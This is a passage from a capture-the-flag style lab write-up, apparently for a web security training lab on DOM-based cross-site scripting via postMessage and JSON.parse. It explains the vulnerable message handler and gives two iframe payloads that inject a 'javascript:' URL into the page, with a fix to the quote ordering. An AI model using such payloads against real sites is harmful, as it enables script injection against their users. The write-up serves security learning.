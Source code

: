 

![img](images/DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/2.png)


It expects a JSON object in e.data. If the “type” field in the JSON is “load-channel”, it will set the “src” of the ACMEplayer to the value of the field “url” of the JSON.

First I will try this with the code:

```
<iframe src="https://0ade0059044fd24c81bb9a8f008100a0.web-security-academy.net/" onload="this.contentWindow.postMessage('{\"type\":\"load-channel\",\"url\":"javascript:alert(1)"}','*')" style="width:100%;height:100%">
```

I had to change to this code. The difference is the order from double-quote>single-quote>escaped-double-quote to single-quote>double-quote>escaped-double-quote:

```
<iframe src="https://0ade0059044fd24c81bb9a8f008100a0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}","*")' style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/3.png)
